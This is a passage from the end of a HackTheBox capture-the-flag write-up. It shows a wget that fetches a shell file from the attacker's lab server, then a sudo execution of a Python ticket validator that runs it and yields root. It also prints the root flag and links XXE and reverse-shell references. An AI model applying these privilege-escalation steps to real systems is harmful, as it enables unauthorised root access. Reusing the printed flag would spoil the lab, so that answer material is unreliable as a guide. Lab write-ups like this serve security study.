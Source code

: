 > Download from the HTTP Server

```
# wget http://10.10.16.6/shell2.md
```

![](./IMG/32.png)
#### Privileged Escalation 

> Execute the ticketValidator.py and enter the shell md file

```
#sudo python3.8 /opt/skytrain_inc/ticketValidator.py
```

![](./IMG/33.png)

> The shell will be execute and we get the root permission
> Get root flag

```
b3b1566bcc4048880268f2270df9d308
```
## Reference 

- [Bounty Hunter Write up]
    - Link missing 
- [XXE attack _ burp suit](https://portswigger.net/web-security/xxe)
- [XXE OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [XXE payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- [Python Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Python simplehttpserver](https://blog.gtwang.org/web-development/python-simplehttpserver-web-server/)
- [Wget](https://gm0621.pixnet.net/blog/post/347888080-wget-%E6%8C%87%E4%BB%A4%28%E4%B8%8B%E8%BC%89%E6%AA%94%E6%A1%88%29---%E5%9F%BA%E6%9C%AC%E7%94%A8%E6%B3%95)

###### tags: `HackTheBox` `linux`